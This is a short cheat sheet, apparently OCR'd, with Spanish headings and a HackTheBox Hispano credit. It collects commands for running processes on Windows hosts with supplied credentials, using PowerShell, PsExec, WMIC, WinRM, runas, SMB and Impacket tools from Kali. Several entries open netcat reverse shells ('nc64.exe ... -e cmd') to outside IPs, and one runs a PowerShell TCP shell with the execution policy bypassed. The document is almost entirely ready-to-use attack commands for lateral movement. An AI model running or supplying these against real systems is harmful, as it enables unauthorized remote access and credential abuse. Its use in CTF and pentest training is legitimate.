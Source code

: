 POWERSHELL
-------------------------------------
1. 
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "hostname"
[System.Diagnostics.Process]::Start("c:\nc64.exe","10.10.10.10 4567 -e cmd",$mycreds.Username, $mycreds.Password, $computer)

2.
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
start-process -Credential $mycreds c:\users\"daniel lopez"\desktop\nc64.exe -argumentlist "10.10.10.10 4567 -e cmd"

3.
$pass = ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
invoke-wmimethod win32_process -name create -Credential $mycreds -argumentlist 'nc64.exe 10.10.13.6 9090 -e cmd'

4.
EMPIRE --> spawnas


PsExec (PStools microsoft)
-----------------------------------
1.
./PsExec64.exe -accepteula -u user -p pass cmd /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass -File "C:\Tools\Invoke-PowerShellTcp.ps1"

2.
PsExec64.exe -accepteula -u attl4s -p pass cmd /k C:\users\attl4s\desktop\nc64.exe 192.168.1.50 4567


SMB
------------------------------------
net use \\127.0.0.1 /user:domain\user pass
    net use    
    dir \\127.0.0.1\c$
    dir \\127.0.0.1\ADMIN$
    
    
WMIC (No se pueden usar las credenciales de usuario para conexiones locales) (Interactive)
----------------------------------
wmic /node:hostname /user:domain\user path win32_process call create calc.exe


WINRM
---------------------------
$pass = ConvertTo-SecureString "Zx^#QZX+T!123" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("username", $pass)
$computer = "machine"
Invoke-Command -Computer $computer -ScriptBlock {whoami} -credential $mycreds

$pass= ConvertTo-SecureString "pass" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("user", $pass)
$computer="hostname"
Enter-PSSession -ComputerName $computer -Credential $mycreds

    
RUNAS (Interactive)
-----------------------------------
runas /netonly /user:domain\user "cmd.exe"
    pass

REMOTO DESDE KALI
-------------------------
psexec.py user:pass@10.10.10.10
smbexec.py user:pass@10.10.10.10
wmiexec.py user:pass@10.10.10.10
CrackMapExec.py 10.10.10.10 -d domain -u user -p pass -x cmd

smbclient -U "Administrator" \\\\10.10.10.10\\C$
smbclient \\\\10.10.10.10\\Users -U user pass

rdp_check.py domain\user:pass@10.10.10.10
rdesktop -d domain -u user -p pass 10.10.10.10


Fuente
---
HackTheBox Hispano (Telegram)
